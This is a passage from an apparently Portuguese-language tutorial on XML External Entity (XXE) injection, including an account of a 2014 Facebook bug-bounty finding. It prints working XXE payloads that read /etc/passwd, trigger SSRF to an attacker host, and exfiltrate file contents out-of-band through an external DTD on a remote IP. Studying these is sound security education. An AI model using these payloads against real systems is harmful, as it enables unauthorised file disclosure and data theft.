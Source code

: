 como pode ser percebido, o valor setado é refletido na response, logo podemos injetar um valor malicioso como este:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><!-- Aqui setamos o que seria um DDT externo
e guardamos seu valor dentro da 'variável' xxe-->
<stockCheck><productId>&xxe;</productId></stockCheck><!-- Chamamos a 'variável' usando o &xxe;-->
```

a response nesse caso conteria o valor do arquivo ```/etc/passwd```.

Esse ataque também pode ser usado para gerar um SSRF, como citado acima, para isto basta substituir o valor do arquivo para um valor HTTP.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://attack.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Caso o valor não seja refletido na response, tente fazer como foi ensinado no artigo sobre [SSRF](Server%20Side%20Request%20Forgery.md), injete um site sob seu domínio e analise se a response chega ou não, caso chegue o mesmo é vulnerável a SSRF por XXE.

### Exemplo:

No final de 2013, Reginaldo Silva reportou uma falha do tipo xxe para o facebook e recebeu $30000, ela poderia facilmente ser escalada para uma falha do tipo remote code execution já que o atacante poderia ler os arquivos ```/etc/passwd```, ela foi corrigida logo em seguinte.

Sabendo disso, no meio de 2014, Mohamed decidiu ver se conseguiria hackear o facebook, ele acessou uma página de carreiras na qual o usuário poderia sertar uma arquivo docx, esta extensão foi uma junção do doc com o xml, ela foi feita para facilitar a abertura e manipulação de arquivos doc, caso queira é possível extrair um arquivo docx você encontrará algo parecido com isto:


![](https://www.devmedia.com.br/imagens/articles/233575/openxmlexe3.png)

Ao perceber que poderia injetar um arquivo docx, o pesquisador extraiu o mesmo e injetou no xml esta carga maliciosa:

```xml
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd">
%dtd;
%send;
]]>
```
pode-se perceber duas coisas no código acima, a primeira é que o valor ```%dtd``` faz referência a um arquivo dtd externo, e a segunda é que podemos chamar variáveis das ```ENTITY'S``` dentro do ```DOCTYPE``` logo, ao chamá-las é executado uma request para a url de ```%dtd``` ela responde com uma entity igual a esta:

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?FACEBOOK-HACKED%26file;'>
```
ao enviar este payload o pesquisador percebeu requests chegando em seu servidor python, logo o facebook estava vulnerável a xxe novamente.
